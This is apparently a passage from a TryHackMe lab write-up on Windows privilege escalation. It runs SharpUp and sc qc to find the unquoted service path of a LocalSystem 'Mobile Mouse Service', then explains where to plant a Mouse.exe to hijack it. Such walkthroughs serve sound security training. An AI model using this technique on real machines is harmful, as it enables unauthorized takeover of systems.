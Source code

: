 **SharpUp.exe** is available in `C:\Users\purpletom` and will find unquoted service paths in modifiable directories on the machine for us.

**Command:** `SharpUp.exe - UnquotedServicePath`

```
SharpUp.exe - UnquotedServicePath

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Unquoted Paths ===
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files (x86)\Mobile Mouse\Mouse' is modifable.

[*] Completed Privesc Checks in 0 seconds
```

SharpUp told us the name of the service is `Mobile Mouse Service`, we can learn more about the permission level that service runs with using the below command.

**Command:** `sc qc "Mobile Mouse Service"`

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Mobile Mouse Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Mobile Mouse Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

The SharpUp output shows us that the actual `HelperService.exe` is located at the below path, but it is missing quotation marks:
`C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe`

This gives us 3 options for where to place and what to name the new executable, since SharpUp found 3 directories that the user `purpletom` can modify.

```
C:\Program
C:\Program Files
C:\Program Files (x86)\Mobile Mouse\Mouse
```

TryHackMe tells us to target the `Mobile Mouse` directory for this technique, so the executable would need to be named `Mouse.exe` and placed in `Mobile Mouse`.
